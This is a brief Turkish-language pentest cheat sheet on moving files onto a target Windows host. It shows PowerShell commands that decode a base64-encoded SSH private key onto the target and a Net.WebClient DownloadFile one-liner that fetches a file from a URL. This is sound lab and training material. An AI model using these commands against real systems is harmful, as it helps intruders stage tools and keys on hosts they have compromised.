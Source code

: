 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/file-transfer-cheat-sheet/","created":"2024-10-30T21:30:04.493+03:00","updated":"2025-02-08T14:15:28.981+03:00"}
---
```





# WİNDOWS 


## Download  Operations

### 1- Base64 Encode - Decode ile File Transfer 

##### Adım 1 : Attack Host SSH Key MD5 Hash'ini Kontrol Et

```shell-session
$ md5sum id_rsa
```


##### Adım 2 : Atack Host SSH Anahtarını Base64'e Kodlama

```shell-session
 cat id_rsa |base64 -w 0;echo
```


##### Adım 3 : Hedef Windows Host'unda Base64 Decode

```powershell-session
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("Base64-Encodelanmış-Veri"))
```

##### Adım 4 : Hedef Windows Host'unda SSH Key MD5 Hash'ini Kontrol et 

```powershell-session
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```



### 2- PowerShell DownloadFile Method

##### 1- DownloadFile

```powershell-session

(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

```

